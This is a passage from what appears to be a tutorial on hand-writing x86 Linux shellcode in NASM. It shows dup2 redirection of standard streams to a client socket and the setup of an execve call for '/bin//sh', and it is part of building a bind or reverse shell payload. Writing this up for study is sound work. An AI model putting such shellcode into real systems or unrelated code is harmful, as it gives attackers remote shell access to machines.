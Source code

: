 ```nasm
xchg ebx, eax
```

## Redirecting STDIN, STDOUT, and STDERR to the Client Connection

Looking at the C code again we can see that we used dup2() for the redirection:

```c
dup2(client_sock, 0);
```
We can iterate over each file descriptor (0,1,2) by using a loop to make things more efficient.

First we'll need to setup our counter in the counter register (ECX).

```nasm
xor ecx, ecx
mov cl, 0x2
```

Now comes the actual loop. We'll be using the JNS instruction which basically means continue to jump to the start of the loop until the signed flag is set. We'll be decrementing our counter register each time, and once -1 gets set in ECX, the signed flag will be set and break the loop.

We'll also need the dup2() system call number. Which we can find in `/usr/include/i386-linux-gnu/asm/unistd_32.h` as 63. Converted to hex that gives us 0x3f. 

```nasm
loop:
	mov al, 0x3f
	int 0x80
	dec ecx	
	jns loop
```

# Executing a Shell

Finally we have arrived at the end. No more socket calls here we simply need to call /bin/sh. 

Referencing our C code one last time:

```c
execve("/bin/sh", NULL, NULL);
```

Checking the main pages for execve() we see that /bin/sh will need to be our first argument (inside EBX) and we can null out the other two arguments since we aren't passing any arguments to /bin/sh. Since /bin/sh is only 7 characters we can add an extra slash in to make it an even 8 to make it easier for the hexadecimal translation. We'll also need to push /bin//sh in reverse as the stack grows from high to low memory. 

Utilizing python we can figure out what we need. 

```python
>>> a = '/bin//sh'
>>> a[::-1]
'hs//nib/'
```
